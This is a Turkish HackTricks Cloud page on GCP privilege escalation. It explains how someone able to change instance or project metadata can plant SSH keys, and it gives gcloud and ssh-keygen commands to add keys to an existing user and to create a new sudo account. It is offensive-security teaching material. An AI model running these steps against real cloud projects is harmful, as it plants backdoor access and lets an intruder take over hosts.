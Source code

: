 # GCP - Özel SSH Metadata Ekleme

{% hint style="success" %}
AWS Hacking'i öğrenin ve uygulayın:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve uygulayın: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**Abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) katılın veya [**telegram grubuna**](https://t.me/peass) katılın veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** takip edin.**
* **Hacking püf noktalarını paylaşarak PR'ler göndererek** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına katkıda bulunun.

</details>
{% endhint %}

## Metadata'yi Düzenleme <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

Bir örneğin metadata'sının değiştirilmesi, **saldırganın gerekli izinleri elde etmesi durumunda önemli güvenlik risklerine yol açabilir**.

### **Özel Metadata'ya SSH Anahtarlarının Eklenmesi**

GCP'de, **Linux sistemleri** genellikle [Google Compute Engine için Python Linux Konuk Ortamı](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts) tarafından betikler çalıştırır. Bu işlemin kritik bir bileşeni, [hesaplar daemonu](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts)dir, bu da **yetkilendirilmiş SSH genel anahtarlarına yapılan güncellemeleri düzenli olarak kontrol etmek üzere** örnek metadata uç noktasını kontrol eder.

Bu nedenle, bir saldırgan özel metadata'yı değiştirebiliyorsa, daemonun yeni bir genel anahtar bulmasını sağlayabilir, bu da işlenir ve **yerel sisteme entegre edilir**. Anahtar, mevcut bir kullanıcının `~/.ssh/authorized_keys` dosyasına eklenir veya anahtarın formatına bağlı olarak `sudo` ayrıcalıklarına sahip yeni bir kullanıcı oluşturulabilir. Ve saldırgan, ana bilgisayarı ele geçirebilir.

### **Mevcut ayrıcalıklı kullanıcıya SSH anahtarı ekleme**

1. **Örnekteki SSH Anahtarlarını İnceleyin:**
- Mevcut SSH anahtarlarını bulmak için örneği ve metadata'sını tanımlamak için komutu çalıştırın. İlgili bölüm, `metadata` altında, özellikle `ssh-keys` anahtarının altında olacaktır.
```bash
gcloud compute instances describe [ÖRNEK] --zone [BÖLGE]
```
- SSH anahtarlarının formatına dikkat edin: kullanıcı adı, iki nokta üst üste kullanılarak ayrılmış şekilde anahtardan önce gelir.

2. **SSH Anahtar Metadata'sı İçin Bir Metin Dosyası Hazırlayın:**
- Kullanıcı adlarının ve bunlara karşılık gelen SSH anahtarlarının ayrıntılarını `meta.txt` adlı bir metin dosyasına kaydedin. Bu, yeni eklenen anahtarları korumak için önemlidir.

3. **Hedef Kullanıcı İçin Yeni Bir SSH Anahtarı Oluşturun (`alice` örneğinde):**
- Hedef kullanıcı adıyla eşleşen bir yorum alanına (`-C`) sahip yeni bir SSH anahtarı oluşturmak için `ssh-keygen` komutunu kullanın.
```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
- Yeni genel anahtarı, örneğin metadata'sında bulunan formata benzeyerek `meta.txt`'ye ekleyin.

4. **Örneğin SSH Anahtar Metadata'sını Güncelleyin:**
- Güncellenmiş SSH anahtar metadata'sını örneğe `gcloud compute instances add-metadata` komutunu kullanarak uygulayın.
```bash
gcloud compute instances add-metadata [ÖRNEK] --metadata-from-file ssh-keys=meta.txt
```

5. **Yeni SSH Anahtarı Kullanarak Örneğe Erişin:**
- Yeni anahtarı kullanarak örneğe SSH ile bağlanın ve hedef kullanıcı bağlamında kabuğa erişin (`alice` örneğinde).
```bash
ssh -i ./key alice@localhost
sudo id
``` 

### **Yeni ayrıcalıklı bir kullanıcı oluşturun ve bir SSH anahtarı ekleyin**

Eğer ilginç bir kullanıcı bulunamazsa, `sudo` ayrıcalıkları verilecek yeni bir kullanıcı oluşturulabilir:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
### Proje Düzeyinde SSH Anahtarları <a href="#sshing-around" id="sshing-around"></a>

Bulut ortamında **proje düzeyinde SSH erişimini genişletmek mümkündür**. Bu yaklaşım, proje genelinde SSH anahtarlarını uygulayarak projenin içindeki herhangi bir örneğe SSH erişimine izin verir, eğer özel olarak proje genelinde SSH anahtarları engellenmemişse. İşte özetlenmiş bir rehber:

1. **Proje Düzeyinde SSH Anahtarları Uygulama:**
- `gcloud compute project-info add-metadata` komutunu kullanarak `meta.txt` dosyasındaki SSH anahtarlarını projenin meta verilerine ekleyin. Bu işlem, SSH anahtarlarının projedeki tüm VM'lerde tanınmasını sağlar, bir VM'in "Proje genelinde SSH anahtarlarını engelle" seçeneği etkinleştirilmediği sürece.
```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```

2. **Proje Genelinde Anahtarlar Kullanarak Örneklerde SSH Yapma:**
- Proje genelinde SSH anahtarları mevcut olduğunda, projenin içindeki herhangi bir örneğe SSH yapabilirsiniz. Proje genelinde anahtarları engellemeyen örnekler, SSH anahtarını kabul ederek erişime izin verecektir.
- Bir örneğe doğrudan SSH yapmanın bir yolu, `gcloud compute ssh [ÖRNEK]` komutunu kullanmaktır. Bu komut, mevcut kullanıcı adınızı ve projenin düzeyinde ayarlanmış SSH anahtarlarını kullanarak erişim denemek için kullanılır.


# Referanslar
* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)
